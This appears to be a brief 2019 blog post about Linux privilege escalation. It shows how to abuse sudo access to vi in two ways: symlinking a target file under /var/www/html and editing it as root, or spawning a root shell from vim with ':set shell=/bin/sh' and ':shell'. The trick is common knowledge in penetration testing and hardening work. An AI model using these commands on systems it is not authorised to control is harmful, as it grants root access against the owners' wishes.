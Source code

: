 ```yaml
---
layout: page
title: Sometimes escalating privileges is that easy
date: 2019-11-29
categories: [TBD]
excerpt: 
---
```

![](/images/61231935_457720931698319_1779304573052125184_n.jpg)

symlink to the file you want to CRUD with root privileges. then sudo vi
/var/www/html/<insert symlink name.

Or once inside vim

`:set shell=/bin/sh`

`:shell`